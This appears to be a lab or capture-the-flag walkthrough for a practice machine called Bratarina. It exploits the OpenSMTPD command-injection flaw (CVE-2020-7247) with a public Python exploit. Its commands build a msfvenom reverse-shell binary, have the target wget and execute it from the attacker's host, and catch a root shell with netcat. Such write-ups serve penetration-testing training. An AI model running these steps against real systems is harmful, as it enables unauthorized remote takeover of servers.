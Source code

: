 Exploitation Guide for Bratarina
Summary

We will exploit an an OpenSMTP vulnerability on this machine.
Enumeration
Nmap

We’ll start off with an nmap scan.

kali@kali:~$ sudo nmap 192.168.135.71
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-03 12:39 +03
Nmap scan report for 192.168.135.71
Host is up (0.15s latency).
Not shown: 995 filtered ports
PORT    STATE  SERVICE
22/tcp  open   ssh
25/tcp  open   smtp
53/tcp  closed domain
80/tcp  open   http
445/tcp open   microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 8.76 seconds

Detailed Nmap Scan

There are a few interesting services. Let’s run a deeper enumeration on the open ports to obtain service version information.

kali@kali:~$ sudo nmap 192.168.135.71 -A -p 22,25,80,443
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-03 12:39 +03
Nmap scan report for 192.168.135.71
Host is up (0.15s latency).

PORT    STATE    SERVICE VERSION
22/tcp  open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 db:dd:2c:ea:2f:85:c5:89:bc:fc:e9:a3:38:f0:d7:50 (RSA)
|   256 e3:b7:65:c2:a7:8e:45:29:bb:62:ec:30:1a:eb:ed:6d (ECDSA)
|_  256 d5:5b:79:5b:ce:48:d8:57:46:db:59:4f:cd:45:5d:ef (ED25519)
25/tcp  open     smtp    OpenSMTPD
| smtp-commands: bratarina Hello nmap.scanme.org [192.168.49.135], pleased to meet you, 8BITMIME, ENHANCEDSTATUSCODES, SIZE 36700160, DSN, HELP,
|_ 2.0.0 This is OpenSMTPD 2.0.0 To report bugs in the implementation, please contact bugs@openbsd.org 2.0.0 with full details 2.0.0 End of HELP info
|_smtp-ntlm-info: ERROR: Script execution failed (use -d to debug)
80/tcp  open     http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title:         Page not found - FlaskBB        
443/tcp filtered https
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Linux 4.X|5.X (85%)
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
Aggressive OS guesses: Linux 4.15 - 5.6 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: bratarina; OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 25/tcp)
HOP RTT       ADDRESS
1   147.21 ms 192.168.49.1
2   147.34 ms 192.168.135.71

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 51.39 seconds

Exploitation

The OpenSMTP, HTTP and SAMBA services appear to be viable attack vectors. Let’s use searchsploit to search for exploits, beginning with OpenSMTP.

kali@kali:~$ searchsploit opensmtp
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                              |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
OpenSMTPD - MAIL FROM Remote Code Execution (Metasploit)                                                                                                                    | linux/remote/48038.rb
OpenSMTPD - OOB Read Local Privilege Escalation (Metasploit)                                                                                                                | linux/local/48185.rb
OpenSMTPD 6.4.0 < 6.6.1 - Local Privilege Escalation + Remote Code Execution                                                                                                | openbsd/remote/48051.pl
OpenSMTPD 6.6.2 - Remote Code Execution                                                                                                                                     | linux/remote/47984.py
OpenSMTPD 6.6.3 - Arbitrary File Read                                                                                                                                       | linux/remote/48139.c
OpenSMTPD < 6.6.3p1 - Local Privilege Escalation + Remote Code Execution                                                                                                    | openbsd/remote/48140.c
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

We could attempt each of these exploits but 47984 (a Python exploit) seems promising.

kali@kali:~$ searchsploit -x linux/remote/47984.py


# Exploit Title: OpenSMTPD 6.6.2 - Remote Code Execution
# Date: 2020-01-29
# Exploit Author: 1F98D
# Original Author: Qualys Security Advisory
# Vendor Homepage: https://www.opensmtpd.org/
# Software Link: https://github.com/OpenSMTPD/OpenSMTPD/releases/tag/6.6.1p1
# Version: OpenSMTPD < 6.6.2
# Tested on: Debian 9.11 (x64)
# CVE: CVE-2020-7247
# References:
# https://www.openwall.com/lists/oss-security/2020/01/28/3
#
# OpenSMTPD after commit a8e222352f and before version 6.6.2 does not adequately
# escape dangerous characters from user-controlled input. An attacker
# can exploit this to execute arbitrary shell commands on the target.
#
#!/usr/local/bin/python3

from socket import *
import sys

if len(sys.argv) != 4:
    print('Usage {} <target ip> <target port> <command>'.format(sys.argv[0]))
    print("E.g. {} 127.0.0.1 25 'touch /tmp/x'".format(sys.argv[0]))
    sys.exit(1)
[SNIP]

To leverage this, we’ll need to first create a reverse shell payload and host it on our Kali machine.

kali@kali:~$ msfvenom -p linux/x64/shell_reverse_tcp -f elf -o shell LHOST=192.168.49.135 LPORT=445
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
Saved as: shell
kali@kali:~$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

Next we’ll copy the exploit to a working directory.

kali@kali:~$ searchsploit -m 47984
  Exploit: OpenSMTPD 6.6.2 - Remote Code Execution
      URL: https://www.exploit-db.com/exploits/47984
     Path: /usr/share/exploitdb/exploits/linux/remote/47984.py
File Type: Python script, ASCII text executable, with CRLF line terminators

Copied to: /home/kali/47984.py

Let’s run the exploit to download our payload to the target.

kali@kali:~$ python3 47984.py 192.168.135.71 25 'wget 192.168.49.135/shell -O /tmp/shell'
[*] OpenSMTPD detected
[*] Connected, sending payload
[*] Payload sent
[*] Done
kali@kali:~$ python3 47984.py 192.168.135.71 25 'chmod +x /tmp/shell'

[*] OpenSMTPD detected
[*] Connected, sending payload
[*] Payload sent
[*] Done

Finally, we’ll start a netcat listener and run the exploit one last time to obtain a reverse shell.

kali@kali:~$ python3 47984.py 192.168.135.71 25 '/tmp/shell'
[*] OpenSMTPD detected
[*] Connected, sending payload
[*] Payload sent
[*] Done

kali@kali:~$ sudo nc -lvp 445
listening on [any] 445 ...
192.168.135.71: inverse host lookup failed: Unknown host
connect to [192.168.49.135] from (UNKNOWN) [192.168.135.71] 54626
ifconfig -a && hostname && whoami
ens160: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.135.71  netmask 255.255.255.0  broadcast 192.168.135.255
        ether 00:50:56:bf:c7:95  txqueuelen 1000  (Ethernet)
        RX packets 2689  bytes 180034 (180.0 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1111  bytes 301967 (301.9 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 2998  bytes 653581 (653.5 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 2998  bytes 653581 (653.5 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

bratarina
root

This grants us a root shell.